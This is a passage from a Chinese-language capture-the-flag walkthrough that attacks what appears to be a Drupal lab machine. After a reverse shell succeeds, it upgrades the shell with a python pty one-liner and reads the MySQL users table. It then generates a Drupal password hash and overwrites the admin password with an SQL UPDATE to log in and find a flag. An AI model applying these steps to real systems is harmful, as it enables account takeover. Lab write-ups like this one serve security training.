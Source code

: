 ![image-20211027172936899](images/19.png)

反弹成功,现在进入mysql看看

但是bash反弹的shell还是进入不了mysql,看网上直接用的python弹shell,通过pty.spawn()获得交互式shell

```
python -c "import pty;pty.spawn('/bin/sh')"
```

![image-20211027173425713](images/20.png)

进入了mysql数据库

看到了tables有一个user项

![image-20211027173736942](images/21.png)

![image-20211027180403075](images/22.png)

看到了admin

但是密码是加密了的,这时候应该怎么办呢,drupal的数据库加密方式是sha-256加盐,drupal有一个默认的加密脚本

加密的脚本所在路径：/var/www/scripts/password-hash.sh

我们可以直接修改admin的密码来直接登陆admin账号

```
./scripts/password-hash.sh 123456
```

来生成数据库中密码的hash值

```
$S$DZbrEgdoriLIbeKjHKoqevlD3.TPJrrGMaJXxRlaNueV0wbYhKEo
```

然后就是修改数据库密码了

```
update users set pass='$S$DZbrEgdoriLIbeKjHKoqevlD3.TPJrrGMaJXxRlaNueV0wbYhKEo' where name='admin';
```

![image-20211027193006246](images/23.png)

登陆成功

find content中找到了flag3

![image-20211027193114661](images/24.png)

除此之外,还有没有可能去给数据增加一个admin权限的用户,毕竟管理员可以不止一个

```
cat includes/bootstrap.inc | grep VERSION  #查看靶机版本
```

![image-20211027193600586](images/25.png)
